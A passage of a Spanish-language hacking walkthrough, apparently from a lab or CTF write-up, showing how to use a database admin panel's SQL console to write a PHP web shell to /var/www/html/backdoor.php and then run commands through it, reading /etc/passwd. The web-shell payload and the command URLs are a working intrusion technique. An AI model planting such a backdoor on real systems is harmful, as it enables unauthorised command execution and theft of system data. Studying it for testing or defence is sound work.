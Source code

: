 Le daremos a `Create` una vez hecho eso, nos iremos a nuestra base de datos creada...

<figure><img src="../.gitbook/assets/3 (1).png" alt=""><figcaption></figcaption></figure>

Y le damos a la opcion llamada `SQL`...

<figure><img src="../.gitbook/assets/4.png" alt=""><figcaption></figcaption></figure>

Dentro metemos el siguiente comando...

```mysql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/backdoor.php"
```

<figure><img src="../.gitbook/assets/5.png" alt=""><figcaption></figcaption></figure>

Y le damos a la opcion de `Go`...

<figure><img src="../.gitbook/assets/6.png" alt=""><figcaption></figcaption></figure>

Ahora si nos vamos a la `URL` donde le hemos dicho que lo cree...

```
URL = http://<IP>/backdoor.php
```

Veremos una pagina en blanco, por lo que significa que el archivo existe, ahora si hacemos lo siguiente...

```
URL = http://<IP>/backdoor.php?cmd=cat /etc/passwd
```

Veremos el archivo `passwd`...
